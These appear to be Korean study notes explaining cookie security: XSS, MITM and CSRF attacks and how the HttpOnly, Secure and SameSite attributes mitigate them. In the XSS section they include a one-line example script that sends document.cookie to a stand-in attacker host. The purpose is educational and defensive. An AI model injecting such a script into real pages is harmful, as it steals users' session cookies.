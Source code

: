 ## ✅ **1. 쿠키란?**

**쿠키(Cookie)** 는 **웹 브라우저에 저장되는 작은 데이터 조각**이다.  
서버와 클라이언트(브라우저) 간에 **상태를 유지하거나 사용자 정보를 저장**하는 데 사용된다.

---
## 🧠 **2. 쿠키의 보안 취약점**

### ⚠️ **7.1 XSS (Cross-Site Scripting)**
### ⚠️ **7.2 CSRF (Cross-Site Request Forgery)**
### ⚠️ **7.3 중간자 공격 (MITM)**

---
 ## 🍪**3.HttpOnly Secure 쿠키**
## ⚠️ **3.1 XSS (Cross-Site Scripting) 공격**

- **공격 방법:** 공격자가 웹 페이지에 **악성 JavaScript 코드를 삽입**한다.
- **목적:** JavaScript를 통해 `document.cookie`로 쿠키를 탈취한다.

**예시:**

```javascript
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

- **HttpOnly 쿠키는?**
    - JavaScript로 접근할 수 없기 때문에 `document.cookie`로 가져올 수 없다.

**✅ 결론:** **HttpOnly가 XSS 공격으로부터 안전합니다.**

---

## ⚠️ **3.2 중간자 공격 (Man-in-the-Middle, MITM)**

- **공격 방법:** HTTP로 전송되는 쿠키를 공격자가 가로챈다.
- **Secure 쿠키는?**
    - `Secure` 속성이 설정된 쿠키는 **HTTPS를 통해서만 전송**된다.
    - HTTP로 전송되지 않기 때문에 가로챌 수 없습니다.

**✅ 결론:** **Secure가 MITM 공격으로부터 안전합니다.**

---

## ⚠️ **3.3 CSRF (Cross-Site Request Forgery)**

- **공격 방법:** 사용자가 로그인한 상태에서 악성 웹 사이트가 요청을 자동으로 보낸다.
- **SameSite 쿠키는?**
    - `SameSite=Strict`: 다른 도메인에서는 쿠키를 보내지 않는다.
    - `SameSite=Lax`: 외부 링크 클릭 시만 쿠키 전송.

**✅ 결론:** **SameSite가 CSRF 공격으로부터 안전하다.**

## 🚦 **3.4. HttpOnly Secure 쿠키는 완벽할까?**
1. **물리적 탈취:** 사용자의 디바이스가 탈취되면 쿠키를 열어볼 수 있다.
2. **브라우저 취약점:** 브라우저 보안에 취약점이 있을 경우 노출 가능.
3. **로그아웃 관리:** 서버에서 쿠키를 강제로 무효화할 수 없음.

**→ 이 한계를 보완하기 위해 Redis를 사용하여 Refresh Token을 중앙 관리한다.**

---
![[Pasted image 20241224122701.png]]